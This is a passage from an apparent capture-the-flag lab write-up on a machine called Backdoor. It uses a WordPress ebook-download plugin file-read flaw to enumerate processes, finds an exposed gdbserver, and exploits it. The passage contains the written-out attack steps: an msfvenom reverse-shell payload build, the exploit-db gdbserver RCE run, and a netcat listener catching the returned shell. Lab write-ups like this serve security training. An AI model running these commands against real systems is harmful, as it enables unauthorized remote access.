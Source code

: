 The script behaves as expected, now we can launch it over the number 65535 and see if any output is useful:
```bash
❯ python3 Exploits/cmdline.py -u "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=" -n 65535 --hh 100
[+] PID: 853 Length:181
	content:/proc/853/cmdline/proc/853/cmdline/proc/853/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done<script>window.close()</script>
```
There is something interesing at the process with PID 853, it is using the port `1337` we discovered at first with nmap. The program used to listen on this port is `gdbserver`.
If we enumerate gdbserver vulnerabilities:
- https://www.exploit-db.com/exploits/50539 (RCE): As we don't know the version of `gdbserver`, we need to try every potential exploit.
  ```python
    """Usage: python3 {sys.argv[0]} <gdbserver-ip:port> <path-to-shellcode>

    Example:
    - Victim's gdbserver   ->  10.10.10.200:1337
    - Attacker's listener  ->  10.10.10.100:4444

    1. Generate shellcode with msfvenom:
    $ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

    2. Listen with Netcat:
    $ nc -nlvp 4444

    3. Run the exploit:
    $ python3 {sys.argv[0]} 10.10.10.200:1337 rev.bin """
  ```
  - As we can see, we need to forge a shellcode with msfvenom and run the exploit over that shellcode:
  ```bash
  ❯ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.2 LPORT=3333 PrependFork=true -o Exploits/rev.bin
  [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
  [-] No arch selected, selecting arch: x64 from the payload
  No encoder specified, outputting raw payload
  Payload size: 106 bytes
  Saved as: Exploits/rev.bin
  ❯ python3 Exploits/50539.py 10.10.11.125:1337 Exploits/rev.bin
  [+] Connected to target. Preparing exploit
  [+] Found x64 arch
  [+] Sending payload
  [*] Pwned!! Check your listener
  # On other terminal
  ❯ nc -nlvp 3333
  Connection from 10.10.11.125:33030
  bash: cannot set terminal process group (15942): Inappropriate ioctl for device
  bash: no job control in this shell
  user@Backdoor:/home/user$ 
  ```
Up to this point, we obtained a user shell as `user` on the target.
